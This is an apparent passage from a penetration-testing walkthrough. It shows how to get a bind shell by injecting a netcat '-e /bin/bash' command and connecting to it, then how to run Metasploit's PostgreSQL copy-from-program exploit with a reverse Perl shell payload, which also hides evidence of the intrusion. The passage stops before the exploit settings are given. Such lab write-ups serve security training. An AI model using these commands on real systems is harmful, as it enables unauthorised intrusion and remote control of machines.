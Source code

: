 If we did everything right we should have a shell on the computer and we can
move to the [Privilege Escalation phase](#privilege-escalation)

**Bind Shell**: Communication initiated by the attacker's system to the
compromised system.

This is the shell that we will be using 

> Note: Unlike the reverse shell we don't need to open a listeners first
 
```bash
;nc <IP> <PORT> -e /bin/bash
```

Don't forget that we need to make the connection, we can do that with the
`netcat` command

```bash
nc <IP> <PORT>
```

If we did everything right we should have a shell on the computer and we can
move to the [Privilege Escalation phase](#privilege-escalation)

### Postgres 5432

Okay now that we have two exploit that might work. Which even you chose
we will explain how to use both exploits.

#### Copy from program cmd exec

`Copy from program cmd exec` exploits works by creating a new table and then copy
the reverse shell payload and then output the table to run the exploit. Then
the exploit will clean of any tables it made to hide any evidence.

To start with is to start up metasploit.

```bash
msfconsole
```

Then can use the exploit, with this:

```bash
use exploit/multi/postgres/postgres_copy_from_program_cmd_exec
```

Now we can set our payload with this

```bash
show payloads
```

this will show all compatible payloads and will will use the
`cmd/unix/reverse_perl` shell

```bash
set payload cmd/unix/reverse_perl
```

Now all we have to do is to set all the settings for exploit.
